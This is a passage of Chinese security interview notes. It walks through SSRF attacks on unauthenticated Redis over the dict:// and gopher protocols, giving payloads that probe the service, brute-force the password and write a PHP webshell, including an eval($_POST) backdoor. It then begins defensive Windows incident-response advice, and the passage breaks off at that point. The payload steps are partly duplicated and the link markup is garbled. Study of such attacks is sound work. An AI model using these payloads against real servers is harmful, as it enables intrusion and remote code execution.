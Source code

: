 探测是否设置弱口令：

ssrf.php?url=dict://x.x.x.x:6379/info 已知端口利用info探测是否设置了密码

爆破密码：

ssrf.php?url=dict://x.x.x.x:6379/auth:$密码$ 利用burpsuite爆破密码

写入webshell：

1. url=dict://[http://**xxx.xxx:6379/config:set**:dir:/var/www/html](https://link.zhihu.com/?target=http%3A//xxx.xxx%3A6379/config%3Aset%3Adir%3A/var/www/html) 切换文件目录
2. url=dict://[http://**xxx.xxx:6379/config:set**:dbfilename:webshell.php](https://link.zhihu.com/?target=http%3A//xxx.xxx%3A6379/config%3Aset%3Adbfilename%3Awebshell.php) 设置保存文件名
3. url=dict://[http://**xxx.xxx:6379/set:webshe**ll:](https://link.zhihu.com/?target=http%3A//xxx.xxx%3A6379/set%3Awebshell%3A)" \x3f\x70\x68\x70\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x3b\x3f\x3e" //利用dict协议写入webshell 以上的字符编码是`<?php phpinfo();?>`的十六进制
4. url=dict://x.x.x.x:6379/save 保存
5. url=dict://[http://**xxx.xxx:6379/config:set**:dir:/var/www/html](https://link.zhihu.com/?target=http%3A//xxx.xxx%3A6379/config%3Aset%3Adir%3A/var/www/html) 切换文件目录
6. url=dict://[http://**xxx.xxx:6379/config:set**:dbfilename:webshell.php](https://link.zhihu.com/?target=http%3A//xxx.xxx%3A6379/config%3Aset%3Adbfilename%3Awebshell.php) 设置保存文件名
7. url=dict://[http://**xxx.xxx:6379/set:webshe**ll:](https://link.zhihu.com/?target=http%3A//xxx.xxx%3A6379/set%3Awebshell%3A)" \x3f\x70\x68\x70\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x3b\x3f\x3e"

//利用dict协议写入webshell 以上的字符编码是`<?php phpinfo();?>`的十六进制

4.ssrf.php?url=dict://x.x.x.x:6379/save 保存

dict协议利用计划任务反弹shell或者写入ssh公钥的手段类似

gopher协议利用redis未授权访问漏洞写入webshell：

常规利用步骤：

set x "\n\n\n`<?php @eval($_POST['redis']);?>`\n\n\n"
config set dir /var/www/html
config set dbfilename shell.php
save

//第一次url解码和第二次url解码

//同理其他类似计划任务反弹和写入ssh公钥等getshell方式相似

## 17.windows应急响应时排查分析的相关细节？

可疑账号排查 lusrmgr.msc

1.检查服务器是否有弱口令。比如空口令或者密码复杂度不够。

2.高危端口是否对外开放，比如SSH服务22端口，RDP服务3389端口等。

3.查看服务器是否有可疑账号。

手工方面：lusrmgr.msc命令查看用户和组，查看是否有新增账号，隐藏账号，克隆账号。
工具方面：比如利用D盾等工具来检测隐藏账号。
4.结合日志分析 eventvwr.msc 查看管理员登录时间，相关事件是否有异常。

敏感事件ID：

